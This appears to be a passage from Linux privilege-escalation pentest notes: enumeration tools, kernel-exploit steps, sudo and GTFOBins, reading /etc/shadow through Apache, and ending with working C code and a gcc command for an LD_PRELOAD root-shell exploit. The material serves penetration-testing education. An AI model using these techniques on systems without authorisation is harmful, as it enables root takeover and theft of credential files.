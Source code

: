 </ul>

## Automated Enumeration Tools
<ul>
	<li><a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">LinPeas</a></li>
	<li><a href="https://github.com/rebootuser/LinEnum">LinEnum</a></li>
	<li><a href="https://github.com/mzet-/linux-exploit-suggester">Linux Exploit Suggester (LES)</a></li>
	<li><a href="https://github.com/diego-treitos/linux-smart-enumeration">Linux Smart Enumeration</a></li>
	<li><a href="https://github.com/linted/linuxprivchecker">Linux Priv Checker</a></li>
</ul>

## Kernel Exploits
The kernel on Linux systems manages the communication between components such as the memory on the system and applications. This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges.<br>
The Kernel exploit methodology is simple;
1. Identify the kernel version
2. Search and find an exploit code for the kernel version of the target system
3. Run the exploit
Note: Failing a kernel exploit can lead to a system crash. Make sure this potential outcome is acceptable within the scope of your penetration test. 

## Sudo
Checking what you can run sudo with <b>sudo -l</b>.
Then use <a href="https://gtfobins.github.io/">GTFObin</a> to determine what programs can be exploitable with the privileges.

### Leverage application functions
Some applications will not have a known exploit within this context. Such as Apache2 server. You can leak information leveraging function of the application. Loading alternative files using -f. Loading /etc/shadow file. 

### Leverage LD_PRELOAD
On some systems, you may see the LD_PRELOAD environment option. LD_PRELOAD is a function that allows any program to use shared libraries. <a href="https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/">Here</a> is more information about the capabilities of LD_PRELOAD. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run.<br>
The vector follow;
1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD_PRELOAD option pointing ot our .so file
A simple C program will spawn a root shell
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```
Save and compile:
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```